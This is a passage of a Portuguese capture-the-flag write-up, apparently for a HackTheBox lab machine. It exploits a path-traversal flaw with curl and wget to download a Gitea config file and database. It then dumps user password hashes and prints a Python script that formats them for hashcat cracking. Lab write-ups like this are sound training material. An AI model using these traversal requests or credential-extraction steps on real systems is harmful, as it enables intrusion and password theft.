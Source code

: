 Lendo a [documentação do
Gitea](https://docs.gitea.com/administration/config-cheat-sheet), podemos
identificar a localização padrão dos arquivos de configuração. O arquivo de
configuração é salvo em `etc/gitea/conf/app.ini`; após a instalação, podemos
utilizar o caminho `/home/developer/gitea/data:/data` (recuperado anteriormente)
para localizar o arquivo `app.ini`.

(No momento da escrita deste writeup, estes posts estão indisponíveis.)

1. Extraímos o arquivo de configuração:

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/conf/app.ini'
```

2. Obtivemos o banco de dados:

```bash
wget 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db' -O gitea.db
```

3. Extraímos informações de usuários:

```sql
sqlite3 gitea.db "select name, passwd_hash_algo, passwd, salt from user"
```

```text
administrator|pbkdf2$50000$50|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|pbkdf2$50000$50|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```

Após conseguimos o hash do usuário, podemos pesquisar maneiras de quebrar o
PBKDF2 utilizando hashcat. Alguns posts que tratam do assunto são:

- <https://hashcat.net/forum/thread-7854.html>
- <https://hashcat.net/forum/thread-8391-post-44775.html#pid44775>

Após obtermos o hash do usuário, precisamos formatá-lo adequadamente para o
hashcat. Para isso, solicitei o chatgpt para gerar um script que extrai e
formata as informações no padrão que precisamos do banco de dados SQLite:

```python
import sqlite3
import base64

# Conectar ao banco de dados SQLite
conn = sqlite3.connect("gitea.db")
cursor = conn.cursor()

# Executar a query para obter os dados necessários
cursor.execute("SELECT passwd, salt, name FROM user WHERE name = 'developer'")


with open("gitea.hashes", "w") as f:
    for passwd_hex, salt_hex, name in cursor.fetchall():
        # Converter de hexadecimal para bytes e depois para Base64
        passwd_b64 = base64.b64encode(bytes.fromhex(passwd_hex)).decode()
        salt_b64 = base64.b64encode(bytes.fromhex(salt_hex)).decode()

        # Formatar no padrão Hashcat
        hashcat_entry = f"{name}:sha256:50000:{salt_b64}:{passwd_b64}"


        print(hashcat_entry)
        f.write(hashcat_entry + "\n")

```